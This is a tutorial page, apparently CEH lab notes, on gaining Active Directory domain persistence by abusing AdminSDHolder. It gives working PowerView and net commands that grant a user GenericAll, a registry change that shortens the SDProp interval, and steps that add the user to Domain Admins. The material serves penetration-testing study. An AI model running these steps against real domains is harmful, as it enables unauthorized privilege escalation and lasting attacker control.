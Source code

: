 # Exploiting Active Directory Objects

**AdminSDHolder** is an Active Directory container with the default security permissions, it is used as a template for AD accounts and groups, such as Domain Admins, Enterprise Admin, etc. to protect them from unintentional modification of permissions.

If a user account is added into the access control list of **AdminSDHolder**, the user will acquire “**GenericAll**” permissions which is equivalent to domain administrators.

1. create the payload and upload to target then set up the listener
2. upload **PowerTools-Master** folder to the target system.

{% embed url="https://github.com/PowerShellEmpire/PowerTools?tab=readme-ov-file" %}

3. Access the target shell, then go to `C:\WIndows\System32` , type `powershell`&#x20;

As we have access to PowerShell access with admin privileges, we can add a standard user Martin in the CEH domain to the AdminSDHolder directory and from there to the Domain Admins group, to maintain persistence in the domain.

4. Navigate to `C:\Users\Administrator\Downloads\PowerView`where the folder we upload before, type `Import-Module ./powerview.psm1`&#x20;
5. To add user named **Martin** to ACL, type `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All`&#x20;
6. To check the permissions assigned to **Martin**, type: `Get-ObjectAcl -SamAccountName "Martin" -ResolveGUIDs`&#x20;

We can see that user Martin now has GenericAll active directory rights. Normally that changes in ACL will propagate automatically after 60 minutes, we can enter the following command to reduce the time interval of SDProp to 3 minutes.

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300
```

> (Microsoft doesn’t recommend the modification of this setting, as this might cause performance issues in relation to LSASS process across the domain.)

7. Add user **Martin** to **Domain Admins** group as he is already having all the permissions. `net group "Domain Admins" Martin /add /domain`&#x20;
8. To verify it, log as **Martin** and in cmd try access `dir \\[ip domain]\C$` will list the C:/ Drive.

We can see that the Domain Controller is now accessible to Martin and thus domain persistence has been established. Can also use the additional commands in the table below to extract sensitive information such as users, groups, domains, and other resources from the target AD environment.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
